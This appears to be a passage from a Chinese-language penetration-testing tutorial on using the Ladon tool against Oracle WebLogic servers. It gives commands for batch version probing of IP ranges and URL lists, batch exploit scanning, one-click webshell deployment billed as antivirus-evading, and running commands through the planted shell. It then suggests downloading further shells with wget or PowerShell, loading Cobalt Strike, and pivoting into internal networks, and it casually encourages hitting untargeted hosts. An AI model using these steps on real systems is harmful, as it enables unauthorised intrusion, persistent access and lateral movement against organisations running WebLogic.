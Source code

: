     
    
    ##### 195 T3协议探测WebLogic版本Ladon 192.168.1.8/24 T3InfoLadon 192.168.1.8:7001 T3InfoLadon http://192.168.1.8:7001 T3InfoLadon url.txt T3Info

通过Fofa或相关搜索引擎导出url.txt，但由于数据更新不及时的原因，有些URL可能已不是weblogic或者版本信息与上面不一致，这时需要使用Ladon进行精准探测，其它APP或产品也一样，可使用WhatCMS识别，确认版本好定制POC。对于指定目标内网或外网，相关搜索引擎也不定扫描到它们的C段，这种情况下同样需要Ladon，外网访问不到的内网就更不说了，相关搜索引擎更加识别不到。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223091439.png)

探测目标确实使用weblgoic后，我们可POC或EXP指定IP

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223091440.png)

当然也可以不探测版本，直接使用WeblogicPoc模块批量探测漏洞，公开POC随便打不要钱，非指定目标也不怕拦，本身POC就公开，拦本就正常。

  *   *   * 

    
    
    Ladon 192.168.1.8/24 WeblogicPocLadon http://192.168.1.8:7001 WeblogicPocLadon url.txt WeblogicPoc

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223091441.png)

 **WebLogicExp一键GetShell**

  * 

    
    
     Ladon 192.168.1.8/24 WeblogicExp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223091443.png)

默认植入的是Ladon的ua
shell可过很多杀软，体积也非常小1k都不到,成功getshell后，大家再自行通过各种命令更换免杀好的其它webshell操作  

 **连接WebShell执行命令**

  * 

    
    
     Ladon911 JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223091444.png)

可以看到这名幸运观众为Linux系统，我们可以wget自己的其它shell到目标，更方便操作。windows就使用powershell等命令下载或直接上CS  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230223091445.png)

后渗透的时就不用我教了，甚至进到内网，还可以再扫一波，外网都使用，搞不好内网可能也会有weblogic，不管任何时候都要懂得举一反一，吃黄豆拉豆芽，能打外网web，内网web也一样，别忘了Ladon最初设计就是专门针对内网的。但又有人误以为只能打内网，于是我又发了各种打外网的文章。

 **0x004 VulScan 多POC漏洞探测**

如果你不熟悉相关漏洞，同样可以使用PocScan或VulScan一键检测目标存在哪些高危漏洞。如下图，针对指定IP，加载Ladon内置的很多POC检测漏洞。如本文没有提到的Struts2Poc，当然S2漏洞我已经很久没见到了，所以几乎没更新，内置POC基本为当初GUI上的POC，区别在于Ladon可批量检测。  
